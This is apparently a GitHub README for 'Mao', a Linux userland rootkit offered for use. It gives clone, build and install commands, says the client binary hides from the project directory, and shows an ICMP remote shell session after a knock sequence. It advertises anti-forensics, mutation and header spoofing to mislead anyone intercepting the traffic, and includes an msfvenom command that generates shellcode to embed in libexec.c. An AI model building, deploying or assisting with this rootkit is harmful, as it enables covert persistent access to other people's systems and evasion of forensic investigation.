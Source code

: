# Mao
A protracted people's rootkit.<br><br>
<img src="https://i.redd.it/4pwkibrp0uq91.jpg" />

Another x86_64 userland rootkit for Linux. 
---

Like in real life, Mao took a lot of inspiration from <a href="https://github.com/mephistolist/hoxha">Hoxha</a>. While his style differed from <a href="https://github.com/mephistolist/tito">Tito</a>, they both integrated elements of Capitalism into their economies. At the same time, Mao had his own theory and legacy. For this reason you may find elements of the two previously mentioned projects, but a great deal of improvements and changes. Better mutation, anti-forensics and better hiding on the system. Again, I will probably hold off on going in-depth on this project until after it publication. 

You will need to install one dependency in order to build this code:

```
sudo apt install libreadline-dev
```

You can then download make and install with the following:

```
git clone https://github.com/mephistolist/Mao.git; cd Mao; make; make install;

```

After this you should have a binary called 'enver', you cannot see in the project directory. However, you can type 'enver' with the ip address of where you have this installed to connect:

```
./enver 127.0.0.1
[*] Initiating knock sequence. Please wait.
[*] ☭ Political power grows out of the barrel of a gun. ☭
[+] ICMP shell connected. Type commands (type 'exit' to quit):
icmp-shell>
```

New Features
---

The enver client taken from <a href="https://github.com/mephistolist/hoxha">Hoxha</a> has the ability to spoof X-Forwarded-For, X-Originating-IP, X-Remote-IP and X-Remote-Addr headers. In the event someone was to intercept your traffic and you have spoofed your ip via a vpn or proxy, these headers give away your true location, or confuse someone further if also spoofed. 

---

If you make changes to this code, you will need to regenerate its binary data with msfvenom:

```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```

Then convert that to base64:

```
cat shellcode.bin | base64 -w0
```

Then replace it with the base64 inside libexec.c and recompile to apply your changes. 

This has currently been tested on Debian Forky using kernel 6.16.7.

